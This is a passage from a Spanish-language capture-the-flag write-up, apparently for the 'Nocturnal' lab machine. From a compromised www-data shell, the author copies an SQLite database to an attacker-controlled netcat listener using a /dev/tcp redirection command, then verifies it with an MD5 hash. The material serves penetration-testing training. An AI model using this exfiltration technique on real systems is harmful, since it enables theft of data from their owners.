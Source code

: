 
## SQLite Database Analysis

Encontraremos un directorio `nocturnal_database`, si listamos lo que hay dentro, veremos que existe un archivo `nocturnal_database.db` que es un archivo compatible con `sqlite3`

~~~ bash
www-data@nocturnal:~$ ls
html  ispconfig  nocturnal.htb	nocturnal_database  php-fcgi-scripts
www-data@nocturnal:~$ cd nocturnal_database/
www-data@nocturnal:~/nocturnal_database$ ls
nocturnal_database.db
www-data@nocturnal:~/nocturnal_database$ file nocturnal_database.db 
nocturnal_database.db: SQLite 3.x database, last written using SQLite version 3031001
~~~

### File Transfer

El sistema tiene instalado `netcat`, la cual es una herramienta que perfectamente podemos usar para transferir este archivo a nuestra máquina. Alternativamente, podemos utilizar un socket con la ruta `/dev/tcp` para enviarnos el archivo con una conexión TCP

Primeramente iniciaremos un listener en nuestra máquina eligiendo un puerto que no esté siendo utilizado por otro servicio

~~~ bash
nc -lvnp 4444 > nocturnal.db
listening on [any] 4444 ...
~~~

Desde la máquina víctima ejecutaremos el siguiente comando, esto abrirá una conexión TCP hacia nuestra máquina atacante enviando el contenido del archivo `nocturnal_database.db`

~~~ bash
www-data@nocturnal:~/nocturnal_database$ cat nocturnal_database.db > /dev/tcp/10.10.14.237/4444
~~~

Inmediatamente recibiremos el archivo desde nuestro listener

~~~ bash
nc -lvnp 4444 > nocturnal.db
listening on [any] 4444 ...
connect to [10.10.14.237] from (UNKNOWN) [10.10.11.64] 59250
~~~

### (Tip) Verify File Integrity 

Podemos verificar la integridad del archivo transferido calculando el `hash` MD5 resultante del mismo. Ambos deben ser idénticos, de lo contrario, sabremos que el archivo está corrupto

~~~ bash
www-data@nocturnal:~/nocturnal.htb$ md5sum ../nocturnal_database/nocturnal_database.db 
293b34c7f9cdf00d223c9c83dbeba990  ../nocturnal_database/nocturnal_database.db
~~~

Ejecutaremos `sqlite` pasando como argumento el nombre del archivo y en mi caso quiero ver los datos en formato tabla, eso lo especifico con el parámetro `-table`
